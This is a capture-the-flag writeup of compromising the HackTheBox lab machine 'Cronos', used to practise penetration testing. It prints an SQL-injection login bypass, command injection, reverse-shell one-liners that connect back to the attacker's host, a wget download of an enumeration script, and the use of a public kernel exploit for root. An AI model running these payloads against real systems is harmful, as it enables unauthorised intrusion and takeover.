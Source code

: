 ```yaml
---
layout: post
title:  "HackTheBox - Cronos Writeup"
categories: [HackTheBox]
tags: [pentesting]
draft: false
---
```


# Introduction

This is a writeup for the machine "Cronos" (10.10.10.13) on the platform HackTheBox. HackTheBox is a penetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

Let's start off with our two nmap scans, a full TCP & a full UDP. In this case only our TCP scan returned any results so we're only going to analyse the output of the TCP scan.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-25 23:00 BST
Nmap scan report for 10.10.10.13
Host is up (0.038s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I was initially quite interested in port 80 due to the fact that a lot of the boxes on HackTheBox start with web-exploitation in some way or another, however, DNS being open did stand out quite a lot.

### HTTP 

I first did the typical thing of running a directory enumeration tool, I use dirb for this although as you can see below, we didn't get much back from this at all.

```
-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat May 25 23:02:46 2019
URL_BASE: http://10.10.10.13/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

GENERATED WORDS: 4612
---- Scanning URL: http://10.10.10.13/ ----
+ http://10.10.10.13/index.html (CODE:200|SIZE:12454)
+ http://10.10.10.13/server-status (CODE:403|SIZE:299)
```

This instantly suggests to us that perhaps this site is unfinished/not properly configured, let's try use Nikto to see if we can find any other interesting information/configuration problems we might be able to leverage.

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.13
+ Target Hostname:    10.10.10.13
+ Target Port:        80
+ Start Time:         2019-05-25 23:03:31 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x30a6 0x555402443a52b 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7499 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2019-05-25 23:08:39 (GMT1) (308 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Like the directory bruteforce, Nikto did not return much for us again, at this point I decided that I would start checking out the DNS side of things as I wasn't getting anywhere fast with the web page enumeration. When visiting the site, we just get an Apache default configuration page so that cements that perhaps this website is unfinished/in-production.

### DNS

As DNS is open, and that is quite uncommon on HackTheBox we're going to add the device to our `/etc/hosts` file and then do some basic DNS enumeration. if you `nano /etc/hosts` and then add `10.10.10.13  cronos.htb` to the hosts file and save, we can then do some DNS enumeration. In this case we could educatedly guess the DNS name quite easily. Now we've done that we can use the `host` command in order to enumerate DNS information such as aliases, etc. 

```
host -l cronos.htb 10.10.10.13
Using domain server:
Name: 10.10.10.13
Address: 10.10.10.13#53
Aliases: 

cronos.htb name server ns1.cronos.htb.
cronos.htb has address 10.10.10.13
admin.cronos.htb has address 10.10.10.13
ns1.cronos.htb has address 10.10.10.13
www.cronos.htb has address 10.10.10.13
```

Oh look - `admin.cronos.htb`! Let's add this to our `/etc/hosts` again and then web-browse to the page.

### User Exploitation

Oh look, we've now got a login screen! I tried some basic logins such as `admin/admin` but I didn't get any luck with this so I stopped going down that path of default credentials.

![login page](/assets/images/2019-05-26-Cronos/LoginPage.png)

After failing at the default credential route I decided to go ahead and try some basic SQLi queries to try and bypass the login screen, I ended up going with `admin' or '1'='1` and that seemed to work for me, with the password being anything you want.

![sqli](/assets/images/2019-05-26-Cronos/sqli.png)

This logged us straight in and we come across a web-based command prompt that let's us execute a traceroute or a ping, typically tools like this are very poorly written and the input is typically unsanitised.

I'm first going to try and execute a basic command injection by appending an icmp back to my attacking machine on the end of the existing command. We'll use TCPDump to listen back for this ping, so we use `tcpdump ip proto \\icmp -i tun0` in order to do this and then from the web page we run the following.


![ping](/assets/images/2019-05-26-Cronos/nettool.png)

As you can see in the below tcpdump output, our connection is working, we can also see this in the web-based command panel so that's a good sign. A. we've got connectivity and B. our command injection is working via `&`.

```
tcpdump ip proto \\icmp -i tun0

tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
23:26:10.928326 IP cronos.htb > KaliAttacker: ICMP echo request, id 5855, seq 1, length 64
23:26:10.928368 IP KaliAttacker > cronos.htb: ICMP echo reply, id 5855, seq 1, length 64
23:26:11.923451 IP cronos.htb > KaliAttacker: ICMP echo request, id 5855, seq 2, length 64
23:26:11.923461 IP KaliAttacker > cronos.htb: ICMP echo reply, id 5855, seq 2, length 64
23:26:12.925157 IP cronos.htb > KaliAttacker: ICMP echo request, id 5855, seq 3, length 64
23:26:12.925169 IP KaliAttacker > cronos.htb: ICMP echo reply, id 5855, seq 3, length 64
23:26:13.926582 IP cronos.htb > KaliAttacker: ICMP echo request, id 5855, seq 4, length 64
23:26:13.926594 IP KaliAttacker > cronos.htb: ICMP echo reply, id 5855, seq 4, length 64
```

Now we've got command injection, let's move into exploitation for user. What we're going to do is use a reverse shell in order to get a connection back to our machine. I had to try a few different shells here but I eventually got one that worked. I first tried using `bash -i >& /dev/tcp/10.10.14.12/8080 0>&1` from a nice list of typical reverse shells however it didn't work so then I tried using Netcat with `nc -e /bin/sh 10.10.14.12 8080` however, that didn't work either so I scrolled down to the Netcat section on [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) there is an interesting command/method for still using netcat here with `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 8080 >/tmp/f` and this worked. So now we have a user we grab the user flag and then we're going to work on the privilege escalation aspect.

```
Listening on [unknown] (family 0, port 1906660159)
Connection from 10.10.10.13 44088 received!
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
$ 
$ locate user.txt
/home/noulis/user.txt
```

### Privilege Escalation

With every Linux box, I always run LinEnum so the first thing we're going to do is get the script onto the box, this is very easy to do. We will first setup a SimpleHTTPServer with `python -m SimpleHTTPServer 8000`, from here we will use `wget http://10.10.14.12:8000/linenum.sh` on the box in the `/tmp` directory (so we have write permissions). We will then `chmod 777 linenum.sh` and run the script. Once it finishes the first thing we will examine the output.

The very first thing I note from the LinEnum output is the Ubuntu verison & the kernel version, so the kernel is running on `4.4.0-72-generic` and the OS version is `16.04.2` so let's first go to Google and search `4.4.0-72-generic privilege escalation` and the first thing that comes up is a [Local Priv Esc for < 4.4.0-116 on ExploitDB](https://www.exploit-db.com/exploits/44298), let's take a look at this. It doesn't look like it was tested on our exact version of Ubuntu but it should work, so let's grab the exploit, compile it using `gcc -o 44298 44298.c` and then use the SimpleHTTPServer to transfer the file into our `/tmp` directory again, from here will use `chmod` to give it execution permissions and then we will run the script exploit.

```
$ ./44298

id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

cat /root/root.txt
```

Oh and look, we got root! That's it! Grab the flag and you're done. Thank you for reading another writeup, this is an OSCP like box so this is great practice for that!

